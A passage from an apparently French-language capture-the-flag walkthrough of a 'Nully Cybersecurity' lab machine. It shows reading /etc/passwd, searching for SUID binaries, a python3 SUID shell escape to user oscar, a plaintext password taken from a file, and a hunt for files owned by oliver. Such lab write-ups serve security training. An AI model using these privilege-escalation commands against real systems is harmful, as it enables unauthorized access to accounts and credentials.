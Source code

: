 On obtient donc un shell en tant que ```www-data```. Maintenant voyons si on peut devenir un utilisateur. Après avoir affiché le contenu du fichier ``/etc/passwd`` on se rend bien compte que nos deux noms d'utilisateurs sont présents :

```
oscar:x:1000:1000:Oscar White,,,,I am sysadmin of the Nully Cybersecurity web server:/home/oscar:/bin/bash
oliver:x:1001:1001:Oliver Jackson,,,,I am in charge of the website and web applications:/home/oliver:/bin/bash
```

* * *

## Privilege escalation deuxième machine

On regarde les binaires qui peuvent avoir le bit SUID positionné :

```bash
find / -perm -400 2>/dev/null
```

Et effectivement quelque chose nous saute à l'oeil :

```
/usr/bin/python3
```

Si on va voir ses droits :

```bash
ls -la /usr/bin/python3

-rwsr-xr-x 1 oscar oscar 5457568 Aug 26 14:19 /usr/bin/python3
```

Avec l'aide de notre ami [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid), on trouve rapidement une commande qui nous permet d'exploiter cette faiblesse.

```bash
/usr/bin/python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

On obtient un shell avec les droits d'``oscar``.

Dans son home directory on trouve un fichier ``my_password`` qui contient le mot de passe suivant

```
H53QfJcXNcur9xFGND3bkPlVlMYUrPyBp76o
```

On peut tenter de chercher les fichiers que l'utilisateur ``oliver`` possède :

```bash
find / -user oliver 2>/dev/null
```

Un fichier ressort :

```
/var/backups/.secret
```
